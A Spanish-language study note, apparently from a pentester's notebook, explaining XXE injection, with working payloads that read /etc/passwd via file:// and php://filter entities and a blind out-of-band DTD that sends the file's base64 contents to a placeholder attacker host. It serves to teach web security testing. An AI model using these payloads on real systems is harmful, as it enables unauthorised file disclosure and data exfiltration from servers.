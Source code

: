 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #XEE
--------------
# Definición

> Es una [[Vulnerabilidades web]] en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.
> 
> Normalmente implica una **inyección** de una entidad **XML** maliciosa en una solicitud HTTP, siendo procesada por el servidor con la posibilidad de resultar en la exposición de información interesante. Un ejemplo podría ser la inyección de una entidad **XML** haciendo referencia a un archivo del servidor pudiendo obtener información del mismo archivo.
> 
> Un caso común en el que se puede explotar **XXE** es cuando el servicio web no validad la entrada de archivos **XML** que recibe. Así, el atacante puede inyectar una entidad **XML** maliciosa. 
> 
> En algunos casos el atacante deberá ir **a ciegas** para obtener información confidencial, ya que no siempre los ataques **XXE** resultan en la exposición directa de información sensible en la respuesta del servidor. Una forma común de proceder, es enviar peticiones diseñadas desde el servidor para conectarse a un **Document Type Definition (DTD)** definido externamente, utilizado para validar la estructura de un archivo **XML**, pudiendo contener referencias a recursos externos. Es una técnica algo más complicada, aunque podría ser efectiva en casos donde el atacante tiene una idea de los recursos disponibles del sistema.
> ,
> En algunos otros casos, un ataque **XXE** puede ser utilizado para desencadenar en una vulnerabilidad de tipo [[SSRF (Server-Side Request Forgery)]], permitiendo a un atacante escanear **puertos internos** de una máquina que normalmente está protegida por un firewall.


----
# Detección de vulnerabilidad

Para detectar la vulnerabilidad, será necesario el envío de una entidad **XML**, que puede ser interceptado con [[Burpsuite]]. La petición podría tener la siguiente forma, mostrando o no por pantalla datos interesantes una vez enviada la entidad **XML** (dependiendo del caso nos encontraríamos con un ataque normal o uno **a ciegas**):

```xml
<?xml version="1.0" encoding="UTF-8"?>
   <root>
     <name>
       test
     </name>
     <tel>
       123456789
     </tel>
     <email>
       test@test
    </email>
     <password>
       test123
     </password>
  </root>
```

Si se mostrase algún campo introducido en la respuesta de la solicitud, podríamos intentar explotar la vulnerabilidad, pero si no se viese, sería un poco más complicado y tendríamos que ir **a ciegas**.

En **XML**, existen lo que se conocen como **entidades**, que vienen a ser como una especie de variable que referencia a otro campo o dato, por ejemplo, si quisiéramos crear una entidad llamada **myName** con nombre **nombre**, tendríamos que proporcionar la siguiente línea:

```xml
<!DOCTYPE foo [<!ENTITY myName "nombre">]>
```

Y para acceder al contenido de ella, simplemente ponemos un *&* delante del nombre de la entidad, por ejemplo:

```xml 
&myName
```

----------
# Explotación con output

La gracia de las **entidades**, es el hecho de que podemos utilizarlos para mostrar archivos del propio sistema, por ejemplo, para guardar en una entidad el contenido del archivo /etc/passwd, podemos hacer uso de la siguiente sentencia:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
```

Si quisiéramos crear una nueva entidad con el contenido del mismo directorio, solo que ahora cifrado en **base64** (para que sea más cómodo), podemos utilizar lo siguiente:

```xml
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd>]>
```

De manera que si pudiéramos ver algún campo que hemos introducido en la respuesta de la página web, podemos llamarlo como hemos mencionado anteriormente y ver el contenido del mismo, por ejemplo con el ejemplo del principio:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
   <root>
     <name>
       test
     </name>
     <tel>
       123456789
     </tel>
     <email>
       &myFile
    </email>
     <password>
       test123
     </password>
  </root>
```

Suponiendo que el campo que visualizamos es el de *email*.

Podemos utilizar distintos [[Wrappers]] en las entidades (en los dos ejemplos hemos utilizados distintos), que se utilizan usualmente en la vulnerabilidad [[LFI (Local File Inclusion)]].


La cosa es que no siempre en la página web nos permiten inyectar **entidades** (la misma página te puede lanzar un mensaje informando de lo mismo), por lo que pasaríamos a realizar una explotación **a ciegas (OOB)**.

-----------
# Explotación a ciegas (XXE OOB Blind)

Para proceder con la explotación **a ciegas**, haremos uso de las externals **DTD**. Ya que no podemos ver el output de la respuesta en la página web, el objetivo va a ser que la máquina remota nos mande por una petición **GET**, dicha información. 

Podemos crear la siguiente entidad, y teniendo previamente montado un servidor HTTP, deberíamos ser capaces de ver dicha solicitud una vez haya sido enviada nuestra entidad **XML**:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<IP_ATACANTE>/malicious.dtd"> %xxe;]>
```

De manera que si creamos el **DTD** de la siguiente forma, nos llegaría el contenido de /etc/passwd en **base64**:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://<IP_ATACANTE>/?file=%file;'>"> 
%eval; 
%exfil;
```

Puede ser un poco tedioso tener que realizar este proceso continuamente y tener que descifrar el mensaje en **base64**, por lo que podemos hacer uso del script [[xxe_oob.sh]], de manera que está todo automatizado.

--------
# Ejemplos prácticos 

[XXE Lab](https://github.com/jbarone/xxelab)